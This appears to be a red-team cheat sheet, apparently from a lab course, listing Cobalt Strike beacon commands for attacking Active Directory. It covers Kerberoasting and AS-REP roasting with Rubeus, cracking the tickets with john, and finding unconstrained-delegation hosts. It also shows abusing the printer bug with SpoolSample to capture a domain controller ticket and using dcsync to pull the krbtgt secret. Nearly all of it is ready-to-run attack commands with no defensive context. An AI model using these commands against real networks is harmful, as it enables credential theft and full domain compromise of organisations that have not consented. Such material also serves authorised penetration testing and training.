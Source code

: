 ###### <font style="color:#00b3ff">Kerberoast with Rubeus (very noisy)</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /simple /nowrap
```

###### <font style="color:#00b3ff">Kerberoasting in different steps. Find all users (in the current domain) where the ServicePrincipalName field is not blank</font> 
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"

	- Target a user:
		beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:svc_mssql /nowrap

	- Crack the TGS:
		root@kali:~# john --format=krb5tgs --wordlist=wordlist svc_mssql
```

###### <font style="color:#00b3ff">Look for AS-REP roasting accounts</font> 
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:svc_oracle /nowrap

root@kali:~# john --format=krb5asrep --wordlist=wordlist svc_oracle
```

###### <font style="color:#00b3ff">Search for Unconstrained Delegation</font> 
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

beacon> make_token DEV\nlamb FakePass
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$
```

###### <font style="color:#00b3ff">Printer Bug</font> 
```
On SRV-1:
	beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap

On WKSTN-1:
	beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv-1

beacon> make_token DEV\DC-2$ FakePass
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-2.kirbi
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
```
